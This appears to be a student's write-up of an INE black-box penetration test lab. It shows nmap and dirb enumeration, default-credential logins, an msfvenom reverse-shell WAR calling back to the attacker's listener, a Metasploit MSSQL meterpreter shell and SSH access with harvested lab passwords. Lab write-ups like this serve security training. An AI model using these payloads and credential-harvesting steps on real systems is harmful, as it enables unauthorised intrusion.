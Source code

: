 # Rachel Murphy
# INE-8/20/21
# Black Box Pen Test 1

# Scenario
- You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range). Your goal is to read the flag file on each machine. On some of them, you will be required to exploit a remote code execution vulnerability in order to read the flag.
- Some machines are exploitable instantly but some might require exploiting other ones first. Enumerate every compromised machine to identify valuable information, that will help you proceed further into the environment.
- If you are stuck on one of the machines, don't overthink and start pentesting another one.
- When you read the flag file, you can be sure that the machine was successfully compromised. But keep your eyes open - apart from the flag, other useful information may be present on the system.

# Goals
- Discover and exploit all the machines on the network
- Read all flag files (one per machine)

# What you will learn
- How to exploit Apache Tomcat
- How to exploit SQL server
- Post Exploitation Discovery
- Arbitrary file upload exploitation

# Recommended Tools
- Dirb
- Metasploit framework
- Nmap 
- Netcat

---

1. Find alive hosts on the network.

`nmap -sn 172.16.64.0/24`

```
Nmap scan report for 172.16.64.101
Host is up (0.12s latency).
MAC Address: 00:50:56:A2:52:F0 (VMware)
Nmap scan report for 172.16.64.140
Host is up (0.11s latency).
MAC Address: 00:50:56:A2:E4:85 (VMware)
Nmap scan report for 172.16.64.182
Host is up (0.059s latency).
MAC Address: 00:50:56:A2:B1:61 (VMware)
Nmap scan report for 172.16.64.199
Host is up (0.057s latency).
MAC Address: 00:50:56:A2:BF:51 (VMware)
Nmap scan report for 172.16.64.10
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 5.24 seconds
```
Five hosts are up.

Performing service detection scan against all targets.

`sudo nmap -sV -sS -v 172.16.64.10,101,140,182,199 -oN servicescan.txt`

Nmap results for `172.16.64.101` -pwn. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
9080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:50:56:A2:52:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.140` -

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:50:56:A2:E4:85 (VMware)
```
Nmap results for `172.16.64.182`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.199`

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- Beginning with `172.16.64.101` and visiting the webserver over port 8080.

Using DIRB with `dirb http://172.16.64.101:8080/ /usr/share/dirb/wordlists/vulns/apache.txt`

Apache Tomcat Manager Auth Page at http://172.16.64.101:9080

Logged into webapp with username: tomcat password: s3cret

Uploaded .war file exploit with msfvenom (USE LHOST VPN IP!!)
`msfvenom -p java/shell_reverse_tcp lhost=172.16.64.10 lport=1996 -f war -o 2pwn.war`
Set up netcat listener and then deploy the 2pwn .war file
`nc -lvnp 1996` 
Remote connection made and locate the flag.txt files with `locate flag.txt`

- Next target http://172.16.64.140:80
- Apache httpd 2.4.18
Enumerating directories with dirb.
`dirb http://172.16.64.140:80 /usr/share/wordlists/dirb/common.txt`
Navigated to the /project directory
Entered credentials: admin:admin
and.....accessed web browser.

![project](https://user-images.githubusercontent.com/76081641/130362887-cbf7e30f-e553-4e92-8348-a3ebfa057e4c.png)

Enumerate harder.

dirb http://172.16.64.140/project -u admin:admin 

INTERESTING DIRECTORY

http://172.16.64.140/project/backup/test/sdadas.txt

Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt

![mysqlcreds](https://user-images.githubusercontent.com/76081641/130326946-f9519d7e-60da-4d55-a8a1-499906bcd998.png)


Perform a simple directory traversal to read the flag.txt file. 

http://172.16.64.140/project/354253425234234/flag.txt

![flag](https://user-images.githubusercontent.com/76081641/130362852-522c7135-a21b-4a26-947c-94ebb2d228f5.png)


- Next target `172.16.64.182`

Recalling the nmap scan 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Next target `172.16.64.199`

Recalling the nmap scan 

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Most likely a null session or mssql vulnerability.

Enumerating with nmap for null sessions.

`enum4linux -a 172.16.64.199`

![image](https://user-images.githubusercontent.com/76081641/130455544-9abda385-cc7b-479e-ac11-8acb82f9a031.png)

Using metasploit to automate reconnaissance of the MS SQL Server.
Using database credentials found fooadmin:fooadmin to log in. 

![image](https://user-images.githubusercontent.com/76081641/130457410-2aca903a-22f2-40e9-8bd5-dd146b444595.png)

System Administrator Logins and Windows Logins for the Server

![image](https://user-images.githubusercontent.com/76081641/130458271-3d4f3c36-3ec9-4196-8432-081a0fe47a45.png)

Fooadmin has administratice privileges. 

Using an additional module in metasploit to gain a reverse shell on the mssql server.

`use exploit/windows/mssql/mssql_payload`

Configuring the module with the `windows/x64/meterpreter_reverse_tcp`

![image](https://user-images.githubusercontent.com/76081641/130459672-fdabab49-a6d2-4912-933c-da8805ed49b8.png)

IT WORKED!!! Gained a meterpreter shell.

Spawn remote shell with `shell cd c:\Users dir`

![image](https://user-images.githubusercontent.com/76081641/130460441-bf64c4f3-8078-4298-9029-de966695f4e1.png)

Exploring remote machine and locate flag in `C:\Users\AdminELS\Desktop`

![image](https://user-images.githubusercontent.com/76081641/130461225-7a0074f0-2857-4957-b4f1-123892be32d7.png)

Searching for SSH log in credentials for the Linux machine. Located id_rsa.pub within on the AdminELS Desktop.

![image](https://user-images.githubusercontent.com/76081641/130466625-01fb6bcf-0d0d-4736-8073-4c40af0d89a5.png)

`ssh://developer:dF3334slKw@172.16.64.182:22#############################################################################################################################################################################################`

Weird. Where is the private key..

`ssh dF3334slKw@172.16.64.182 `

Should be `ssh developer@172.16.64.182`

Password: dF3334slKw

![image](https://user-images.githubusercontent.com/76081641/130468162-8bae8f29-0e72-4353-b3a2-9387d4155aca.png)

LAST FLAG!!!

![image](https://user-images.githubusercontent.com/76081641/130468356-b2116ec9-7479-4d55-9645-5ce2c663b6ea.png)
